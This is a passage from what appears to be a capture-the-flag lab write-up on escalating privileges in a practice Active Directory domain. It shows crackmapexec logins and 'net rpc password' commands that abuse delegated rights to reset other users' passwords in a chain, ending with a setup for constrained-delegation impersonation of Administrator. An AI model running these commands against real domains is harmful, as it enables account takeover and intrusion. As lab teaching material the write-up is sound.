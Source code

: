 ```console
$ cme smb haystack.thm.corp -u 'SHAWNA_BRAY' -p 'NewPassword123@'
SMB         haystack.thm.corp 445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         haystack.thm.corp 445    HAYSTACK         [+] thm.corp\SHAWNA_BRAY:NewPassword123@
```

Continuing up the chain, user `SHAWNA_BRAY` has `ForceChangePassword` right for `CRUZ_HALL`.

We can use the same method to reset the password for `CRUZ_HALL`.

```console
$ net rpc password "CRUZ_HALL" "NewPassword123@" -U "THM.CORP"/"SHAWNA_BRAY"%"NewPassword123@" -S "haystack.thm.corp"
```

Testing the password change once again.

```console
$ cme smb haystack.thm.corp -u 'CRUZ_HALL' -p 'NewPassword123@'                                        
SMB         haystack.thm.corp 445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         haystack.thm.corp 445    HAYSTACK         [+] thm.corp\CRUZ_HALL:NewPassword123@
```

User `CRUZ_HALL` has `GenericWrite` on `DARLA_WINTERS`.

We will use the same method of resetting password for the last time.

```console
$ net rpc password "DARLA_WINTERS" "NewPassword123@" -U "THM.CORP"/"CRUZ_HALL"%"NewPassword123@" -S "haystack.thm.corp"
```

Now, we have access as `DARLA_WINTERS`.

```console
$ cme smb haystack.thm.corp -u 'DARLA_WINTERS' -p 'NewPassword123@'                                                    
SMB         haystack.thm.corp 445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         haystack.thm.corp 445    HAYSTACK         [+] thm.corp\DARLA_WINTERS:NewPassword123@ 
```

### Constrained Delegation

Checking the user `DARLA_WINTERS` on BloodHound, we see that the user is able to perform `constrained delegation`.

![Constrained Delegation on BloodHound](ConstrainedDelegation.webp){: width="800" height="650" }

This means we can impersonate Administrator for the `CIFS` service on the Domain Controller (haystack.thm.corp).

> Since we will be using Kerberos from this point on, you have to make sure the attacker machine's time is synched with the DC.
{: .prompt-tip }
